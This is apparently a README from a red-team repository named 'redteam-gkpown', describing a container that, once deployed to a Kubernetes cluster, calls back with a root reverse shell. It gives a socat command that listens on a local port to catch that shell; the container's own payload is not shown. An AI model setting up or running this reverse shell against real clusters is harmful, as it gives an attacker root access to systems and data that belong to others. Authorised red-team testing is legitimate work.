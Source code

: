 # redteam-gkpown
Reverse shell container for k8s deployments

Run this on your local machine and wait for the container to deploy and call back with a root shell:

socat file:`tty`,raw,echo=0 tcp-listen:9532
